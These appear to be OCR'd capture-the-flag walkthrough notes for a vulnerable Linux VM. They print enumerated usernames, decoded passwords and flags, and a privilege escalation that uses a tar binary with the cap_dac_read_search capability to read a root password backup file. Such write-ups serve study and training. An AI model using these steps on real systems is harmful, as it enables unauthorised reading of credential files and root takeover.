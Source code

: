 
enum4linux complete on Sat Jan  8 20:34:39 2022

# Using Enum4linux Found a Username : cyber

>> In The Page source of default webpage apache found a brainfuck text.after decoding it found a
>> password


# password : .2uqPEfj3D<P'a-3

# user.txt : 3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

# ->Privilage Escalation:

>> first find binaries having set capabilities for some process as a root.
# getcap -r / 2>/dev/null

>> find a capability : /home/cyber/tar cap_dac_read_search=ep
>> tar binary read any file on system make a tar file.
>> the i make a backup file and read a .old_pass.bak file in which a root password is held.

# ./tar -cvf backup /var/backups/.old_pass.bak
>> following output is return when cat the backup file

var/backups/.old_pass.bak0000600000000000000000000000002114134001114014303 0ustar  rootrootTs&4&YurgtRX(=~h

>> got a root access.
# root.txt : 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}


